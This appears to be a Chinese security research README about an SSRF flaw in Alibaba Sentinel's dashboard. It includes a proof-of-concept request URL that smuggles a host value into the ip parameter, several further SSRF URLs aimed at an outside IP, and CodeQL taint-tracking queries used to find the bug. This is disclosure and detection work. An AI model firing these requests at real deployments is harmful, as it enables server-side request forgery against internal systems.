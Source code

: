 # Sentinel

随着微服务的流行，服务和服务之间的稳定性变得越来越重要。Sentinel 是面向分布式服务架构的**轻量级**流量控制产品，主要以流量为切入点，从流量控制、熔断降级、系统负载保护等多个维度来帮助您保护服务的稳定性。

[介绍](https://blog.csdn.net/u012190514/article/details/81383698)

## SSRF

https://github.com/alibaba/Sentinel/issues/2451

## source

![image-20220102190441213](https://user-images.githubusercontent.com/63966847/147877579-bc3f1a6c-e274-409e-98e3-401259ca6815.png)


![image-20220102190456538](https://user-images.githubusercontent.com/63966847/147877583-77e3152f-c4d8-4fd1-bd4f-8e1775df54bf.png)


## sink

![image-20220102190519809](https://user-images.githubusercontent.com/63966847/147877588-ff6b13b7-d192-4913-a419-e3044634df93.png)

exp

```
http://127.0.0.1:8080/registry/machine?app=SSRF-TEST&appType=0&version=0&hostname=TEST&ip=localhost:12345%23&port=0
```

## codeql

使用污点分析

其他ssrf不过需要登录。

```
http://127.0.0.1:8080/cluster/state_single?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/authority/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/v1/flow/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/paramFlow/rules?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/resource/machineResource.json?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/system/rules.json?ip=1.116.136.120&port=3333&app=test

http://127.0.0.1:8080/gateway/api//list.json?ip=1.116.136.120&port=3333&app=test
```

因为能力有限只能分开弄

```java
/**
 * @id Sentinel
 * @name Ssrf
 * @description Ssrf
 * @kind path-problem
 * @problem.severity warning
 */

import java
import semmle.code.java.dataflow.TaintTracking
import semmle.code.java.dataflow.FlowSources
import semmle.code.java.security.QueryInjection
import DataFlow::PathGraph



class SsrfConfig extends TaintTracking::Configuration {
  SsrfConfig() { this = "SsrfConfig" }

  override predicate isSource(DataFlow::Node src) { 
    src instanceof RemoteFlowSource
  }//默认参数

  override predicate isSink(DataFlow::Node sink) {
    exists(//触发set ip操作
      Parameter p | p = sink.asParameter() and p.getCallable().getName() = "setIp" and p.getName() = "ip"
  )
  }
}

from SsrfConfig config, DataFlow::PathNode source, DataFlow::PathNode sink
where config.hasFlowPath(source, sink)
select source.getNode(), source, sink, "source"
```

```java
import java
    
from MethodAccess call, Method method, DataFlow::Node src
where method.hasName("setIp") and method.getDeclaringType().getAnAncestor().hasQualifiedName("com.alibaba.csp.sentinel.dashboard.discovery", "MachineInfo") and call.getMethod() = method and src instanceof RemoteFlowSource 
select call
```
---------------------------------------------------------------------------------
更新 2021/1/3

让safe6sec师傅看了看，师傅说sink点需要是危险的地方，之前的setip不能这样。

和师傅讨论弄了一下午加一晚上终于弄出来了(主要是safe6sec师傅在弄 hhhh

感谢safe6sec师傅

```ql
/**
 * @id Sentinel
 * @name Ssrf
 * @description Ssrf
 * @kind path-problem
 * @problem.severity warning
 */

import java
import semmle.code.java.dataflow.TaintTracking
import semmle.code.java.dataflow.FlowSources
import DataFlow::PathGraph

//连接setip到getip
predicate isTaintedString(Expr expSrc, Expr expDest) {
  exists(Method method1,Method method2, MethodAccess call1,MethodAccess call2|
    method1.getName()="setIp" and call1.getMethod() = method1 and expSrc = call1.getAnArgument()//获得setip方法的参数
    and
    method2.getName()="getIp" and call2.getMethod() = method2 and expDest = call2 
    )
}

class SsrfConfig extends TaintTracking::Configuration {
  SsrfConfig() { this = "SsrfConfig" }

  override predicate isSource(DataFlow::Node src) { 
    src instanceof RemoteFlowSource//默认的
   }

   //sink 
	override predicate isSink(DataFlow::Node sink) {
	   exists(ConstructorCall call, Class clz| 
		call.getAnArgument() = sink.asExpr()
		and call.getConstructedType()=clz 
		and clz.getName()="HttpGet"
		)
  }

  override predicate isAdditionalTaintStep(DataFlow::Node node1, DataFlow::Node node2) {
    isTaintedString(node1.asExpr(), node2.asExpr())
  }

}

from SsrfConfig config, DataFlow::PathNode source, DataFlow::PathNode sink
where config.hasFlowPath(source, sink)
select source.getNode(), source, sink, "source"

// from Method method1,MethodAccess call1,DataFlow::Node expSrc
// where method1.getName()="setIp" and call1.getMethod() = method1 and expSrc.asExpr() = call1.getAnArgument()
// select call1,expSrc,call1.getAnArgument(),1
```

![image](https://user-images.githubusercontent.com/63966847/147954723-35bcda60-b9d3-403a-8178-8998bd79049f.png)

